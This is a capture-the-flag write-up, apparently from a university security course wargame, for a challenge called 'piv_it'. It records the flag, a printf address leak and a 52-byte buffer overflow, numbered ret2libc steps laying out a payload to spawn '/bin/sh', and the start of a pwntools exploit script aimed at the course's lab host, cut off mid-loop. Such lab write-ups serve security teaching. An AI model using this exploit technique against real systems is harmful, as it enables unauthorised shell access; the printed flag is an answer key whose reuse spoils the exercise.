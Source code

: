 ```python
    main()
```

==============================
==============================

nx-1 | piv_it
===========================

Flag: `6447{38b126bc-24b0-404d-81db-7a2f74ea4941}`

General overview of problems faced
-------------------------------------
- The postamble was very confusing with esp being moved multiple times from multiple registers
- had to test which libc version was being used as there were 2 possible libc versions available based on the infoleak

List of vulnerabilities
--------------------
1. Infoleak: we are given the address to the `printf` function
2. Buffer overflow: The program uses `read` to take up to 52 bytes of input into a fixed length buffer which is smaller than 52 bytes. Therefore we can overflow the buffer and overwrite memory after it.

Steps to exploit
------------------
1. Record the `printf` address pointer
2. Use a libc database to find which libc library is being used and using the given offsets, calculate the system address and the "/bin/sh" string address. (if there are 2 choices, select the ubuntu10 version)
3. Send as a payload:
    - the address 0x08048199 in little endian format 34 times
    - the calculated system address
    - 4 bytes to replace return address
    - the calcuated "/bin/sh" address
    - 1 random char to redirect esp into your buffer
4. Because of aslr, you might need to repeat the process multiple times
5. Congratulations you now have a shell

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

def main():
    context.terminal = "/bin/sh"
    h = "wargames.6447.sec.edu.au"
    p = 8001

    ret_address = 0x08048199
    r_char = "\x00" # use a semi-random char and hope aslr treats you well

    i = 0
    while 1:
        i += 1
        print i

        r = remote( h, p )

        r.recvuntil("random number: ")
        resp = r.recvline().strip()
        print resp
```